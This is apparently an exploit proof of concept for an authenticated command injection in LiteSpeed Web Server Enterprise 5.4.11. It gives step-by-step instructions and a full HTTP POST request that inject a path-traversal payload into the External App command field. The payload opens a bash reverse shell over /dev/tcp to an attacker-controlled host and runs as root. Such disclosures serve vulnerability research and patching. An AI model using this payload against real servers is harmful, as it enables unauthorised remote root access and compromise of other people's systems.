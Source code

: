 # Exploit Title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
# Date: 05/20/2021
# Exploit Author: cmOs - SunCSR
# Vendor Homepage: https://www.litespeedtech.com/
# Software Link: https://www.litespeedtech.com/products
# Version: 5.4.11
# Ubuntu/Kali Linux


Step 1: Log in to the dashboard using the Administrator account.
Step 2 : Access Server Configuration > Server > External App > Edit
Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)
Step 4 : Inject payload "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value
Step 5: Graceful Restart

[POC]

```bash
POST /config/confMgr.php HTTP/1.1
Host: 192.168.1.6:7080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101
Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*
;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:
https://192.168.1.6:7080/config/confMgr.php?m=serv&p=ext&t=A_EXT_FCGI&r=file&a=E&tk=0.59220300%201612516386
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Origin: https://192.168.1.6:7080
Connection: close
Cookie: LSWSWEBUI=85fa7ba9b37d18d57e41e092a2a2a61f;
lsws_uid=j%2FsI8GRiKBc%3D; lsws_pass=c7pC2izvdbQ%3D
Upgrade-Insecure-Requests: 1

name=file&address=127.0.0.1%3A5434&note=&maxConns=2000&env=&initTimeout=1&retryTimeout=1&persistConn=1&pcKeepAliveTimeout=20&respBuffer=0&autoStart=1&path=fcgi-bin%2Flsphp5%2F..%2F..%2F..%2F..%2F..%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.6%2F1234+0%3E%261%27&backlog=&instances=&extUser=root&extGroup=root&umask=&runOnStartUp=3&extMaxIdleTime=&priority=&memSoftLimit=&memHardLimit=&procSoftLimit=&procHardLimit=&a=s&m=serv&p=ext&t=A_EXT_FCGI&r=file&tk=0.59220300+1612516386&file_create=
```
